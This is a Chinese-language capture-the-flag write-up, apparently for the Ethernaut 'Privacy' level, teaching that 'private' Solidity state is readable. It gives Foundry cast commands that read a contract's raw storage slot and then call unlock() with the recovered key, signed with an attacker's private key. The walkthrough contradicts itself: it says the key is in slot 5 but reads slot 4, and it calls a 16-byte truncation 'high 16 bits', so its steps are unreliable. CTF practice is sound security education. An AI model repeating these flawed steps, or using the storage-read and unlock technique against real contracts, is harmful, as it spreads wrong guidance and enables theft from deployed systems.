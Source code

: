 ### 第12关：Privacy 

这一关和第8关 Vault 有点类似，目的是要读取合约中的 bytes32[3] private data 变量。从代码布局
```solidity
contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;
}
```
如果你对变量的存储布局比较了解，可以推算一下 data 的 slot 位置，或者获取多一些比如 slot0~slot9 来观察一下。
可以推测出 password 存放在 slot5 中。



**使用 foundry cast 来读取存储槽4, 得到密码：**
```shell
cast storage 0x目标合约地址 4  --rpc-url=https://blastapi.io
 ```
 显示为 0xaa123456789012345678901234567890123456789012345678901234567890ff
这里涉及到一个数据类型的转换: 
```solidity
require(_key == bytes16(data[2]));
```
data[2] 是一个 bytes32 类型，转换为 bytes16 的话，数据只保留高16位：0xaa123456789012345678901234567890，这个就是我们要找的答案了。

然后调用 unlock(bytes16 _key) 函数：
 ```shell
cast send 0x目标合约地址 "unlock(bytes16 _key)" 0xaa123456789012345678901234567890  --rpc-url=https://public.blastapi.io  --private-key=攻击者私钥
 ```

 点击 Submit Instance, 过关。
